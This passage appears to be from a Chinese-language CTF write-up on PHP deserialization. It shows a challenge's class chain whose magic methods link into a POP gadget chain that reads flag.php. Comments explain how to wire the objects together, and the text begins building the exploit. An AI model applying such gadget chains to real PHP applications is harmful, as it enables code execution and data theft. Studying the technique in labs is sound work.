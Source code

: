 **flag{4f9bdf017d34ab2f1882b84286d85840}**

# 反序列化

## pop1

```php
<?php
class start{
    public $mod1;
    public $mod2;
    public function __destruct(){
        echo $this->mod1->mod2; // 让start对象的mod1属性为Get对象，其访问了一个不存在的属性，触发Get对象的__get()方法
    }
}
class Get{
    public $mod1;
    public function __get($value){
        $this->mod1->test1(); // 让Get对象的mod1属性为Call对象
    }
}
class Call{
    public $mod1;
    public $mod2;
    public function test1(){
        $this->mod1->test2(); // 让Call对象的mod1属性为funct对象，对象调用了一个其不存在的方法，触发funct对象的__call()方法
    }
}
class funct{
    public $mod1;
    public $mod2;
    public function __call($test2,$ary){
        $s1=$this->mod1; 
        $s1(); // 让funct对象的mod1属性为func对象，对象被当做函数处理，触发func对象的__invoke()方法
    }
}
class func{
    public $mod1;
    public $mod2;
    public function __invoke(){
        $this->mod2 = "字符串拼接".$this->mod1; // 让func对象的mod1属性为string1对象，对象被当做字符串处理，触发string1对象的__toString()方法
    }
}
class string1{
    public $str1;
    public $str2;
    public function __toString(){
        $this->str1->get_flag(); // 让string1对象的str1变量为GetFlag对象  接着：如何调用string1对象的__toString()方法
        return '1';
    }
}
class GetFlag{
    public function get_flag(){
        include 'flag.php';
            echo $flag;     
    }
}


$string1 = new string1();
$string1->str1 = new GetFlag();
```